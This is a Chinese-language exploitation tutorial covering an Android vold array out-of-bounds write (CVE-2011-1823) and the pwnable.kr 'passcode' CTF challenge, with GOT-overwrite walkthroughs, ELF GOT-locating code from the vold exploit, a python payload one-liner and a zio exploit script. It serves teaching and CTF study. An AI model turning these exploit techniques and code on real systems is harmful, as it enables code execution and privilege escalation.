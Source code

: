 # 其他漏洞类型补充

- 数组越界写
- 未初始化的栈变量
- scanf误用



#### 数组越界写 - CVE-2011-1823

传入的数组下标没有检查上限，或者是有符号的，只检查了上限，没有检查是否为负数，直接对下标元素写操作。导致程序访问数组之外的地址。
利用该任意地址写漏洞将GOT表中的strcmp等函数项覆盖为libc中的system函数，系统没有开启ALSR的情况下可以使用当前进程libc中system函数的地址,这和目标进程中的system地址是相同的，当目标进程下次调用strcmp时,就会执行system函数.只需在传入的参数字符串中提供一个二进制程序的路径.这样在目标进程对字符串进行比较的时候,就会运行这个二进制程序.
首先要获得全局偏移表(GOT表)到问题数组的偏移。GOT的地址可以通过解析磁盘上的该进程对应二进制的ELF文件头来得到.但数组的地址不能直接获取。利用思路就是要用无效的偏移来让它崩溃,然后读取崩溃的日志信息,获取数组的地址信息，然后就可以计算出GOT地址到数组直接的偏移即所需要的下标。ALSR不开启的情况下,进程无论如何重启,这个偏移都会保持不变(该思路需要进程能够在崩溃时自动重启).
代表漏洞：CVE-2011-1823

示例代码片段：

```
static void *find_symbol(char *sym) {
	void *r = NULL;
	void *dlh = dlopen("/system/libc/libc.so", RTLD_NOW);

	if (!dlh) {
		die("[-] dlopen");
	}
	
	if ((r = (void *) dlsym(dlh, sym)) == NULL) {
		die("[-] dlsym");
	}
	
	dlclose(dlh);
	
	return r;

}

static void find_got(char *file) {
	int fd, i;
	Elf32_Ehdr ehdr;
	Elf32_Phdr phdr;
	Elf32_Dyn *dyn = NULL;
	size_t dyn_size = 0;
	char buf[256];

	memset(&ehdr, 0, sizeof(ehdr));
	memset(&phdr, 0, sizeof(phdr));
	
	if ((fd = open(file, O_RDONLY)) < 0) {
		die("[-] open");
	}
	
	if (read(fd, &ehdr, sizeof(ehdr)) != sizeof(ehdr)) {
		die("[-] read");
	}
	
	if (lseek(fd, ehdr.e_phoff, SEEK_SET) != ehdr.e_phoff) {
		die("[-] lseek");
	}
	
	for (i = 0; i < ehdr.e_phnum; ++i) {
		if (read(fd, &phdr, sizeof(phdr)) != sizeof(phdr)) {
			die("[-] read");
		}
	
		if (phdr.p_type == PT_DYNAMIC) {
			break;
		}
	}
	
	if (phdr.p_type != PT_DYNAMIC) {
		die("[-] No GOT found!");
	}
	
	if (lseek(fd, phdr.p_offset, SEEK_SET) != phdr.p_offset) {
		die("[-] lseek");
	}
	
	dyn_size = phdr.p_filesz;
	
	sprintf(buf, "[+] Found PT_DYNAMIC of size %d (%d entries)\n", dyn_size,
			dyn_size / sizeof(Elf32_Dyn));
	
	LOG(buf);
	
	if ((dyn = malloc(dyn_size)) == NULL) {
		die("[-] malloc");
	}
	
	if (read(fd, dyn, dyn_size) != dyn_size) {
		die("[-] read");
	}
	
	close(fd);
	
	for (i = 0; i < dyn_size / sizeof(Elf32_Dyn); ++i) {
		if (dyn[i].d_tag == DT_PLTGOT) {
			break;
		}
	}
	
	if (dyn[i].d_tag != DT_PLTGOT) {
		die("[-] No GOT found!");
	}
	
	vold.got_start = dyn[i].d_un.d_ptr;
	free(dyn);
	
	/* Not really the end, but who cares, 64 entries should be enough
	 */
	vold.got_end = vold.got_start + scale * 64;
	
	sprintf(buf, "[+] Found GOT: 0x%08x\n", vold.got_start);
	LOG(buf);
}
```



#### scanf误用配合未初始化栈变量覆写GOT表

实例来自panable.kr中的passcode

```
#include <stdio.h>
#include <stdlib.h>

void login(){
    int passcode1;
    int passcode2;

    printf("enter passcode1 : ");
    scanf("%d", passcode1);
    fflush(stdin);
     
    // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
    printf("enter passcode2 : ");
    scanf("%d", passcode2);
     
    printf("checking...\n");
    if(passcode1==338150 && passcode2==13371337){
    	printf("Login OK!\n");
    	system("/bin/cat flag");
    } else {
    	printf("Login Failed!\n");
    	exit(0);
    }

}

void welcome(){
    char name[100];
    printf("enter you name : ");
    scanf("%100s", name);
    printf("Welcome %s!\n", name);
}

int main(){
    printf("Toddler's Secure Login System 1.0 beta.\n");

    welcome();
    login();
     
    // something after login...
    printf("Now I can safely trust you that you have credential :)\n");
    return 0;   

}
```

分析程序可知,scanf时,没有用取地址符&
scanf("%d", passcode1);
正确用法应该是：
scanf("%d", &passcode1);
这样的后果是会使用栈上的数据即passcode1的初始值作为指针存放输入的数据,而passcode的初值来自于栈上，事实上是welcome()函数中输入的局部变量name的内容，是可控的。经过调试可以发现name的最后4字节会在login()函数中被用作地址指针。这样就形成了一个任意地址写的漏洞。而写入的内容则就是scanf的输入。
利用思路就是覆盖GOT表，将printf的got表地址覆盖成system("/bin/cat flag")这行代码的地址。即可在调用printf时改变程序执行流程，直接调用system("/bin/cat flag")。所以利用的重点就是找到GOT中printf()的地址即写入地址，以及system("/bin/cat flag")这块代码地址，即写入的内容。


获取GOT中printf()的地址有多种方法，可以使用objdump查看：

```
$ objdump -R passcode
OFFSET	TYPE		VALUE
...
0804a000	R_386_JUMP_SLOY	printf
...
```

即可获得printf()在的地址0804a000这是攻击目标
或者可以使用IDA等反汇编工具跳转到printf调用这里查看地址。

也可以直接在gdb调试过程中在printf调用时跟进查看。
例如printf调用如下：

```
0x080485a0 <+60>:    call   0x8048420 <printf@plt>
```

跟进call   0x8048420去看到

```
=> 0x8048420 <printf@plt>:      jmp    *0x804a000
```

所以0x804a000这里存储着libc里的printf函数地址，我们要改写的也就是0x804a000这个地址。

system("/bin/cat flag")调用的代码段则可以在gdb中调试到此处查看地址，相关代码如下：

```
0x080485e3 <+127>:   movl   $0x80487af,(%esp)
0x080485ea <+134>:   call   0x8048460 <system@plt>
```

所以要改写的内容就是0x080485e3，由于scanf接受的输入是"%d"类型，所以要转换成十进制数输入，即134514147

所以payload为

```
python -c "print 'A'*96 + '\x00\xa0\x04\x08' + '\n' + '134514147'" | ./passcode
```


注意三点：

1. scanf中输入0x00并不会被截断，所以这里\x00是没有问题的，其他如0x09，0x0A，0x0B，0x0C，0x0D，0x20是会截断终止scanf输入的。
2. printf在GOT表的地址，即写入的目标地址如何找到。可以如上通过gdb跟踪调试进入得到，也可以objdump -R passcode得到，也可以IDA反编译得到
3. 写入的数据如何确定，这个比较好确定，目的就是劫持到cat flag.txt逻辑调用上去就可以了。另外由于该题场景这里需要十六进制地址转换成数字输入。

zio实现exp代码如下：

```
#!/usr/bin/env python

from zio import *

io = zio("./passcode")
io.read_until("System 1.0 beta.\n")
payload = 'A'*96 + '\x00\xa0\x04\x08' + '\n' + '134514147'
io.write(payload)

io.interact()
```

